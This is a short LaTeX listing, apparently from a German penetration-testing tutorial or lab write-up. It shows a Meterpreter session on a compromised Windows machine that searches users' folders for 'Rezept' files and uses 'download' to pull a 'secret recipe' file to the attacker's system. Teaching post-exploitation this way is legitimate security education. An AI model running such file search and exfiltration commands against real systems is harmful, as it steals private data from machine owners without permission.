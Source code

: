 \begin{lstlisting}[language=Metasploit]
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40555/r-xr-xr-x   0     dir   2012-06-27 12:15:35 +0200  .
40777/rwxrwxrwx   0     dir   2012-06-26 11:07:38 +0200  ..
100666/rw-rw-rw-  150   fil   2012-06-26 11:07:39 +0200  Desktop.ini
100666/rw-rw-rw-  408   fil   2012-06-26 11:13:40 +0200  Geheimrezepte.lnk
100666/rw-rw-rw-  511   fil   2012-06-26 12:21:09 +0200  Rezept1NR.lnk
100666/rw-rw-rw-  562   fil   2012-06-26 11:13:40 +0200  Rezept2NJ.lnk
100666/rw-rw-rw-  511   fil   2012-06-26 11:14:01 +0200  Testdatei.lnk
100666/rw-rw-rw-  392   fil   2012-06-27 12:15:35 +0200  WINDOWS.lnk
100666/rw-rw-rw-  529   fil   2012-06-27 12:15:34 +0200  netfxocm.lnk
100666/rw-rw-rw-  371   fil   2012-06-26 12:21:09 +0200  public.lnk

meterpreter > search Geheimrezepte

[-] You must specify a valid file glob to search for, e.g. >search -f *.doc

meterpreter > search -f Rezept*

Found 6 results...

    c:\\Dokumente und Einstellungen\Administrator\Recent\Rezept1NR.txt.lnk (552 bytes)
    c:\\Dokumente und Einstellungen\Marcel\Recent\Rezept1NR.txt.lnk (552 bytes)
    c:\\Dokumente und Einstellungen\User0815\Recent\Rezept1NR.lnk (511 bytes)
    c:\\Dokumente und Einstellungen\User0815\Recent\Rezept2NJ.lnk (562 bytes)
    c:\\Geheimrezepte\Rezept2NJ.txt (745 bytes)
    c:\\public\Rezept1NR.txt (801 bytes)

meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd Geheimrezepte
meterpreter > ls

Listing: C:\Geheimrezepte
=========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2012-06-17 22:48:54 +0200  .
40777/rwxrwxrwx   0     dir   1980-01-01 00:00:00 +0100  ..
100666/rw-rw-rw-  745   fil   2012-06-17 22:47:47 +0200  Rezept2NJ.txt

meterpreter > download Rezept2NJ.txt

[*] downloading: Rezept2NJ.txt -> Rezept2NJ.txt
[*] downloaded : Rezept2NJ.txt -> Rezept2NJ.txt

meterpreter > ;-)
\end{lstlisting}
